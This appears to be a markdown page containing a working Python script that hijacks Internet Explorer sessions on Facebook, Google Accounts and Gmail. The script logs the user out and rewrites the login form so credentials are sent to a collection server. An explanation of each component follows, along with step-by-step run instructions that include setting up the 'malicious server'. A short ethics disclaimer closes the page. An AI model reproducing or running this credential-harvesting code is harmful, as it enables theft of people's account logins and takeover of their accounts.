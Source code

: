 # Browser Hijacking and Login Redirect Script

This script seems to attempt to hijack a user's browser session to capture login details, particularly targeting certain websites such as Facebook, Gmail, and Google Accounts. It interacts with Internet Explorer's COM interface to monitor browser activities and modifies login forms to redirect data to a malicious server.


```python
import time
import urllib.parse
import win32com.client

data_receiver = "http://localhost:8080/"

target_sites = {
    "www.facebook.com": {
        "logout_url": None,
        "logout_form": "logout_form",
        "login_form_index": 0,
        "owned": False 
    },
    "accounts.google.com": {
        "logout_url": "https://accounts.google.com/Logout?hl=en&continue="
                      "https://accounts.google.com/"
                      "ServiceLogin%3Fservice%3Dmail",
        "logout_form": None,
        "login_form_index": 0,
        "owned": False 
    }
}

target_sites["www.gmail.com"] = target_sites["accounts.google.com"]
target_sites["mail.google.com"] = target_sites["accounts.google.com"]

clsid = '{9BA05972-F6A8-11CF-A442-00A0C90A8F39}' # internet explorer class ID

windows = win32com.client.Dispatch(clsid)

def wait_for_browser(browser):
    # wait for the browser to finish loading a page
    while browser.ReadyState != 4 and browser.ReadyState != "complete":
        time.sleep(0.1)
    return

while True:
    for browser in windows:
        url = urllib.parse.urlparse(browser.LocationUrl)
        if url.hostname in target_sites:
            if target_sites[url.hostname]["owned"]:
                continue
            # if there's a url we can just redirect
            if target_sites[url.hostname]["logout_url"]:
                browser.Navigate(target_sites[url.hostname]["logout_url"])
                wait_for_browser(browser)
            else:
                # retrieve all elements in the document
                full_doc = browser.Document.all
                # iterate looking for the logout form
                for obj in full_doc:
                    try:
                        # find the logout form and submit it
                        if obj.id == target_sites[url.hostname]["logout_form"]:
                            obj.submit()
                            wait_for_browser(browser)
                    except:
                        pass 
            
            try:
                # now modify the login form
                login_index = target_sites[url.hostname]["login_form_index"]
                login_page = urllib.parse.quote(browser.LocationUrl)
                browser.Document.forms[login_index].action = f"{data_receiver}{login_page}"
                target_sites[url.hostname]["owned"] = True
            except:
                pass
        time.sleep(5)
```

#### Key Components of the Code:

1. **Libraries Used**:
   - **`time`**: Used to pause the script for a short period, allowing pages to load before performing actions.
   - **`urllib.parse`**: Provides functions for parsing and manipulating URLs.
   - **`win32com.client`**: A library that allows interaction with COM objects, specifically used here to control Internet Explorer's COM interface.

2. **Global Variables**:
   - **`data_receiver`**: The server that receives the hijacked login data (usually a malicious server on `localhost` in this case).
   - **`target_sites`**: A dictionary of websites (Facebook, Google, Gmail) that the script targets. Each site has attributes like:
     - `logout_url`: The URL to redirect to in order to log the user out.
     - `logout_form`: The ID of a form element to submit to log out the user.
     - `login_form_index`: The index of the login form on the page.
     - `owned`: A flag indicating whether the site has been hijacked.

3. **COM Object (`windows`)**:
   - The script interacts with Internet Explorer (via the `clsid` for the browser) to control it. It uses `win32com.client.Dispatch(clsid)` to interface with Internet Explorer.

4. **Functions**:
   - **`wait_for_browser(browser)`**: This function waits for the browser to finish loading a page (indicated by `ReadyState`).
   - **Main Loop**: The `while True` loop checks the current browser window for target URLs, performs the hijacking actions, and redirects or modifies the login form as needed.

#### Workflow:

1. **Monitoring Browsers**: 
   - The script fetches all open instances of Internet Explorer and checks the current URL (`browser.LocationUrl`).

2. **Target Sites**:
   - The script identifies if the current URL belongs to one of the target sites (Facebook, Google, Gmail).
   
3. **Logout Process**:
   - If the site has a logout URL defined (like for Google), it navigates the browser to that logout URL to log the user out. If a logout form is provided, it submits the form.

4. **Login Form Modification**:
   - After logging the user out (or if no logout option exists), the script attempts to modify the login form on the page. Specifically, it changes the form's `action` attribute to send the data to the `data_receiver` (malicious server). This allows the attacker to capture login credentials.

5. **Ownership Flag**:
   - Once the login form has been hijacked, the `owned` flag for that site is set to `True`, so the script doesn't attempt to hijack the form again for that site.

6. **Looping**:
   - The script runs in a loop, checking browsers every 5 seconds (`time.sleep(5)`), allowing it to continuously monitor and hijack sessions.

#### How to Run:

To run this script:

1. **Set Up a Malicious Server**: Ensure that you have a server running on `localhost:8080` (the `data_receiver` address) to receive the redirected login data.
   
2. **Dependencies**:
   - Make sure you have the necessary dependencies installed:
     - `pywin32` library to interact with Windows COM objects (`win32com.client`).
     - You can install it via `pip`:
       ```bash
       pip install pywin32
       ```

3. **Run the Script**: 
   - Save the script to a `.py` file (e.g., `browser_hijacker.py`).
   - Run the script using Python:
     ```bash
     python browser_hijacker.py
     ```

### Ethical Concerns:
This script is illegal and unethical. It is an example of a **man-in-the-middle attack** targeting browsers and hijacking login sessions. This type of activity violates privacy and can cause severe damage. Do not use this code for malicious purposes. It is important to respect user privacy and security and to follow ethical practices in cybersecurity.
